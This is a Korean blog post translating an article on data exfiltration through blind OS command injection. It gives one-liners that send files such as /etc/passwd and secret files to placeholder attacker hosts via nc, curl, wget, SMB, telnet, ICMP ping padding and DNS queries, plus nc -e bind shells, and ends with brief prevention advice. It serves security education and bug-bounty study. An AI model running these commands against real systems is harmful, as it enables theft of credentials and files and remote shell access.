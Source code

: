 ```yaml
---
layout: post
title:  "Blind OS Command Injection"
tag:   Survey
categories: IoT system persu
---
```


번역 : https://www.contextis.com/resources/blog/data-exfiltration-blind-os-command-injection/

# Blind OS Command Injection을 통한 데이터 추출

## blind OS Command Injection
사용자의 입력이 시스템 명령에 사용될 수 있는 공격인 OS Command Injection의 한 종류로 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다.

기본적인 OS Command Injection을 이해 하기 위해서는 아래 URL 참조.
- https://www.owasp.org/index.php/Command_Injection

<img src="{{ site.url }}/images/2017-03-12/one.png" style="display: block; margin: auto;">

위 그림에서 type이후 시스템 명령 삽입이 가능하다. 하지만 성공 여부는 HTTP Response 메세지 내 노출되지 않게 된다.
이럴 경우 다른 방식으로 공격자에게 응답을 오도록 한다.

그 예로 ping을 이용한 방법이다.
- ping -c 5 xxx.xxx.xxx.xxx : 대상 IP에 icmp 메세지를 5번 요청하는 명령어

<img src="{{ site.url }}/images/2017-03-12/two.png" style="display: block; margin: auto;">

위 그림은 다중 명령어를 사용할 수 있는 방법이다.
상세 내용은 아래 URL을 참고하면 좋다... 개인적으로 이해하기 쉬운 글이었다.

- https://bpsecblog.wordpress.com/2016/10/05/command_injection_02/

지금부터는 다양한 명령어를 통해 Blind OS Command Injection에 대해 알아 보겠다.

1. NetCat (NC)
NC는 TCP, UDP을 통해 네트워크 연결을 가능하게 하며, 데이터를 읽고 쓰기가 가능한 명령어다.

- 사용법 : https://en.wikipedia.org/wiki/Netcat
-  nc –l –p {port} < {file/to/extract}

<img src="{{ site.url }}/images/2017-03-12/thr.png" style="display: block; margin: auto;">

 위 그림 처럼 nc를 이용하여 포트를 열게 되면, netstat -an 명령 시 5555번 포트가 열려 있는 것을 알 수 있다.

```
persu$ nc -l -p 5555 < /etc/passwd&
persu$ netstat -an |grep 5555
tcp4       0      0  *.5555                 *.*                    LISTEN
```
5555번 포트 접근 시 실제 /etc/passwd 내용을 확인 할 수 있다.

```
persu$ nc 127.0.0.1 5555
##
# User Database
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
```

이렇듯 NC를 통해 특정한 파일을 읽을 수 있으며, 리버스 쉘을 통해 쉘에 접근 할 수 있다.

2. cURL
cURL은 다양한 프로토콜을 사용하여 데이터를 전송하는 라이브러리 및 명령 줄 도구이며 데이터 추출을위한 매우 유용한 도구다. 취약한 서버에 cURL이 있으면 악의적인 웹 서버에 파일을 POST하거나 FTP / SCP / TFTP / TELNET 등의 프로토콜을 사용하여 파일을 전송할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/CURL
- cat /path/to/file | curl –F “:data=@-“ http://xxx.xxx.xxx.xxxx:xxxx/test.txt

<img src="{{ site.url }}/images/2017-03-12/four.png" style="display: block; margin: auto;">

위 그림에서 사용한 명령어는 cat을 통해 /etc/passwd를 http://xxxxx/text.txt 의 데이터로 사용하게 된다.

또 다른 방법으로는 FTP 프로토콜을 사용하는 방법이다.
- curl –T {path to file} ftp://xxx.xxx.xxx.xxx –user {username}:{password}

<img src="{{ site.url }}/images/2017-03-12/five.png" style="display: block; margin: auto;">
위 명령은 -T 옵션을 이용하여, 공격자의 ftp 서버에 접근하여 file을 전송하는 명령이다.

솔직히 cURL은 평소에 잘 사용하지 않는 명령어라 옵션에 대한 정리 및 이해가 필요하다...

3. WGET
Wget은 웹에서 파일을 비 대화식으로 다운로드 할 때 일반적으로 사용되는 도구. 특히 사용자 정의 헤더 및 POST 요청을 할 수 있다.
- 사용법 : https://en.wikipedia.org/wiki/Wget
- wget –header=”EVIL:$(cat /data/secret/password.txt)”http://xxx.xxx.xxx:xxx
- –header=’name:value’ : HTTP Request 메세지 전송 시 특정 헤더에 value 추가하는 옵션

<img src="{{ site.url }}/images/2017-03-12/six.png" style="display: block; margin: auto;">

위 그림처럼 명령어 전송 시 서버측 로그를 보게 되면, header에 시스템 파일이 노출되는 것을 알 수 있다.

추가적으로 사용할 수 있는 명령어는 아래와 같다.
- wget –header=”evil:`cat /etc/passwd | xargs echo –n`” http://xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/seven.png" style="display: block; margin: auto;">

- wget –post-data exfil=`cat /data/secret/secretcode.txt` http://xxx.xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/eight.png" style="display: block; margin: auto;">

- wget –post-file trophy.php http://xxx.xxx.xxx.xxx:xxxx
특정 파일을 post body 영역에 전송하는 명령어

<img src="{{ site.url }}/images/2017-03-12/nine.png" style="display: block; margin: auto;">

4. SMB
Windows 운영체제를 사용하는 PC에서 Linux 또는 UNIX 서버에 접속하여 파일이나 프린터를 공유하여 사용할 수 있도록 해 주는 소프트웨어이다.
- 사용법 : https://ko.wikipedia.org/wiki/%EC%82%BC%EB%B0%94_
- net use h: \\xxx.xxx.xxx.xxx\web /user:{username} {password} && copy {File to Copy} h:\{filename}.txt

<img src="{{ site.url }}/images/2017-03-12/ten.png" style="display: block; margin: auto;">

잘 사용하지 않지만, 특정 명령어를 사용할 수 없고 SMB 프로토콜이 활성화 되어 있는 경우 유용하게 쓰일 수 있다.

5. TELNET
TELNET 프로토콜은 원격에서 쉘에 접근할 수 있는 서비스를 제공한다. 23번 Default Port를 사용하고 있으며, 평문 전송을 통해 데이터를 전달 하게 된다. (대부분 한번 쯤 써본 서비스...)
- 사용법 : https://en.wikipedia.org/wiki/Telnet
- telnet xxx.xxx.xxx.xxx {port} < {file to transfer}

<img src="{{ site.url }}/images/2017-03-12/eleven.png" style="display: block; margin: auto;">

공격자가 NC 를 이용해 특정 포트를 오픈하고 있을 시 위 명령어를 통해 Telnet 서비스에 연결하게 되지만 실제로는 지정한 파일이 입력되어 공격자 PC에는 지정한 파일의 정보가 노출되는 것을 알 수 있다.

6. ICMP
ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.
- cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done

<img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">

<img src="{{ site.url }}/images/2017-03-12/14.png" style="display: block; margin: auto;">

이 방식은 ICMP 프로토콜의 특징을 이용한 방법인데, 보통 IP 패킷을 보내기 위해서는 최소 바이트를 작성을 하여 전송해야 한다. ICMP 는 프로토콜 헤더에서 대부분의 서비스를 정의하고 실제로 보내지게 되는 Data에는 OS에서 지정한 잡다한 데이터가 입력되는데 이 부분에 공격자가 지정한 파일의 값을 입력하게 된다. (아주 쌈박함)

그 옵션이 바로 -p 옵션이며, 최대 16 개의 "패드"바이트를 지정할 수 있다. 여기서 공격자가 추출하고자하는 데이터를 저장하는 것이다.

7. DNS
DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.
- cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done

<img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">

DNS 프로토콜은 해당 URL의 IP를 서버에 요청시 쿼리를 날리게 되는데 위 그림에서 사용한 방식은 요청할 URL에 파일의 값으로 사용한다는 내용이다. 충분히 가능한 얘기이며, 이 또한 프로토콜의 특성을 이용하는 방법이다.


8. 추가 내용
- nc -l -p 9090 -e cmd.exe (Windows)
- nc -l -p 9090 -e /bin/bash (*nix)

위 방식을 사용하게 되면, 해당 포트에 접근하여도 -e 옵션을 이용해 바로 쉘을 사용할 수 있게 된다.

```
Victim :  persu$ nc -l -p 9090 -e /bin/bash
Attacke : persu$ nc 127.0.0.1 9090
id
uid=501(persu)
```

## Blind OS Command Injection Prevention
OS Command Injection 공격은 IoT 디바이스에서 많이 발견되는 취약점이다. 이를 방어 하기 위한 방법은 아래와 같다.

- 시스템 명령어 사용 시 상수 값을 통한 입력값 제한
- 사용자 입력 값에 대한 화이트 리스트 기반의 특수문자 필터링 적용
- 외부로 패킷 전달이 가능한 시스템 명령어 제한(KISA 권고 사항)
- 낮은 권한의 웹 서비스 데몬 실행
- 웹 서비스에 대한 정기적인 로그 검토

어찌 됐건.... 공격자에 입장에 있는 나는 유용한 자료였으며, 이 자료를 참고하여 버그 바운티를 하겠댱 빠염!
